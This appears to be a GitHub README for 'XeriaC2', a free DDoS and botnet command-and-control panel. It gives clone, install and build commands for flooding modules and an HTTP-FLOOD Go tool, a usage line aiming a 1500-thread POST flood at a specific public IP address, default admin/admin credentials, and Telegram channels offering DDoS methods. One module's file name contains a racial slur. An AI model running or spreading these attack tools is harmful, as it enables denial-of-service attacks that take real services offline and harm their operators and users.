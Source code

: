 ## Setup/Install
```sh
Cloud Shell : https://shell.cloud.google.com/?show=ide%2Cterminal

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

node auto_install_modules.js 404.js HTTP-NIGGA,js BYPASS.js holdv2.js Tlsv1.js

python xeriac2.py

```

## Login 
```sh
Username : admin
Password : admin

```

## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/perkicauc2

Chat : https://t.me/xeriac2chat

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## Wanna Update Method?</br> 
remove file XeriaC2
-----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500

**PLEASE STAR WITH YOU SUPPORT ME**


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570

